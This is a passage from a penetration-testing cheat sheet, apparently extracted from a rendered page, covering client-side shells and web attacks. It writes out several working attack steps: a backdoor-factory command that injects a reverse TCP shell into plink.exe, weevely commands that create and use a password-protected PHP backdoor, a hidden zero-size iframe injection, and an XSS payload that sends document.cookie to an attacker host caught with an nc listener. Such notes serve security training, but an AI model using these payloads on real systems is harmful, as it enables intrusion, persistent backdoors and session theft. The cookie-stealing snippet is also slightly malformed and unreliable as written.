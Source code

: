     -   Linux Client Shells
        [*http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/*](http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

    -   Setting up the Client Side Exploit

    -   Swapping Out the Shellcode

    -   Injecting a Backdoor Shell into Plink.exe
        backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip
        -P 4444 -s reverse\_shell\_tcp

-   <span id="_n6fr3j21cp1m" class="anchor"><span id="_Toc480741818" class="anchor"></span></span>Web Attacks
    ---------------------------------------------------------------------------------------------------------

    -   Web Shag Web Application Vulnerability Assessment Platform
        webshag-gui

    -   Web Shells
        [*http://tools.kali.org/maintaining-access/webshells*](http://tools.kali.org/maintaining-access/webshells)
        `ls -l /usr/share/webshells/`

    -   Generate a PHP backdoor (generate) protected with the given
        password (s3cr3t)
        weevely generate s3cr3t
        weevely http://$ip/weevely.php s3cr3t

    -   Java Signed Applet Attack

    -   HTTP / HTTPS Webserver Enumeration

        -   OWASP Dirbuster

        -   nikto -h $ip

    -   Essential Iceweasel Add-ons
        Cookies Manager
        https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/
        Tamper Data
        https://addons.mozilla.org/en-US/firefox/addon/tamper-data/

    -   Cross Site Scripting (XSS)
        significant impacts, such as cookie stealing and authentication
        bypass, redirecting the victim’s browser to a malicious HTML
        page, and more

    -   Browser Redirection and IFRAME Injection
        ```html
        <iframe SRC="http://$ip/report" height = "0" width="0"></iframe>
        ```

    -   Stealing Cookies and Session Information
        ```javascript
        <javascript>
        new image().src="http://$ip/bogus.php?output="+document.cookie;
        </script>
        ```
        nc -nlvp 80
